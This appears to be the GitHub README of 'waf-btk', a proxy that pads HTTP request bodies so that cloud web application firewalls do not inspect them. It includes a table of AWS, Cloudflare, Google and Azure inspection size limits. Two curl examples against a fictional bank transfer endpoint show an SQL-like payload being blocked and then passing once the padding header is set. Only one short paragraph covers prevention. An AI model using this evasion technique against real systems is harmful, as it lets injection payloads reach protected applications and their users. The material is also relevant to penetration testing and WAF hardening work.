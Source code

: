 # waf-btk

WAF Bypass Toolkit

## What does it do?

It is well documented that certain cloud provider WAF products have a payload size limitation. This project is an HTTP/HTTPS proxy that acts as a wrapper to evade WAF detection by padding request bodies enough to bypass inspection by those rules.

### Limits

| Provider     | Max payload inspected |
| ------------ | --------------------- |
| AWS WAF      | 8k                    |
| Cloudflare   | 128k                  |
| Google Armor | 8k                    |
| Azure WAF    | 128k                  |

## How to use it

### Start the proxy

```console
make run
2023/04/24 17:17:15 [info] start listening to 127.0.0.1:8888
...
```

### Set a custom request header

To pad a request on the fly, set the `waf-btk-padding` header to the size you want to pad to. The header will be stripped from the request.

The following example assumes you have an application protected by a WAF with a rule that blocks requests containing `SELECT * FROM` in the payload.

Example (blocked by WAF):

Replay a normal `application/json` request through the proxy.

```console
$ curl -k -x http://localhost:8888 'https://api.ghostbank.com/api/v3/transfer' \
  -H 'authority: api.ghostbank.com' \
  -H 'accept: application/json' \
  -H 'accept-language: en-US,en;q=0.9' \
  -H 'content-type: application/json' \
  -H 'cookie: ghostbank=MTY4MTk4NzQ5M...Oj4UoQKVK1U=' \
  -H 'origin: https://ghostbank.com' \
  -H 'referer: https://ghostbank.com/' \
  -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36' \
  --data-raw '{"account_to":102,"account_from":998,"amount":7,"query":"SELECT * FROM schema"}' \
  --compressed

{"error":"WAF block"}
```

Example (not blocked by WAF):

Specify the `waf-btk-padding` header (value is padded in multiples of 1K). To bypass the AWS WAF, use a value of `8` or greater. To bypass the Cloudflare WAF, use a value of `128` or greater.

```console
$ curl -k -x http://localhost:8888 'https://api.ghostbank.com/api/v3/transfer' \
  -H 'authority: api.ghostbank.com' \
  -H 'accept: application/json' \
  -H 'accept-language: en-US,en;q=0.9' \
  -H 'content-type: application/json' \
  -H 'waf-btk-padding: 8' \
  -H 'cookie: ghostbank=MTY4MTk4NzQ5M...Oj4UoQKVK1U=' \
  -H 'origin: https://ghostbank.com' \
  -H 'referer: https://ghostbank.com/' \
  -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36' \
  --data-raw '{"account_to":102,"account_from":998,"amount":7,"query":"SELECT * FROM schema"}' \
  --compressed

{"status":"ok"}
```

## How to prevent bypass

The simple way to prevent request padding bypass attacks is to just block/drop requests that exceed the size limit. However, this is not always possible/practical.

## What's next?

Some WAFs (including AWS WAF) also have limitations on the number of headers and cookies they will evaluate. Future updates to WAF-BTK will extend the padding functionality to headers and cookies as well.
